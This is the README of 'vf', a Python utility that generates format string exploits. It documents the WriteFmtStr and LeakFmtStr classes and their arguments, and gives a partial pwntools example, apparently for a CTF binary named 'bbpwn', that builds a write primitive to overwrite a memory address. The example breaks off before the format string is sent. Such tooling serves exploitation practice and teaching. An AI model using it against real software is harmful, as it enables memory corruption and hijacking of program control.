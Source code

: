 # vf

So this is a utility for generating format string exploits. It is designed to be called from within your python code.

There are two different classes specified within this. One is `WriteFmtStr` for format strings that are writing a value, and the other is `LeakFmtStr` for format strings that are leaking a value.

## Installation

To install it, just run the `setup.py`.

```
$	python3 setup.py install
```

Setuptools is needed for the installation, so you may need to install it:

```
$	pip3 install setuptools
```

## WriteFmtStr Usage

So for this class, these are the available arguments for it:

```
address
value
offset
arch
write_sizes
printed_bytes
alignment_bytes
value_base
address_base
```

Between these, the three required arguments are `address`, `value`, and `offset`. A simple example of one is:

```
fs = vf.WriteFmtStr(address = 0x08042060, value = 0x0804a028, offset = 12)
fs.generate_fmt_str()
```

First we create the class, the method `generate_fmt_str()` actually generate the format string. Here is an example exploit using `vf`.

```
from vf import *
from pwn import *

target = process("./bbpwn")

# Initialize the fmt string
fs = WriteFmtStr(
	value=0x0804870b, 
	address=0x0804a028, 
	offset=11, 
	arch=32, 
	printed_bytes = 70, 
	alignment_bytes=4)

# Generate the fmt string
fmt_str = fs.generate_fmt_str()

# Send the fmt string
```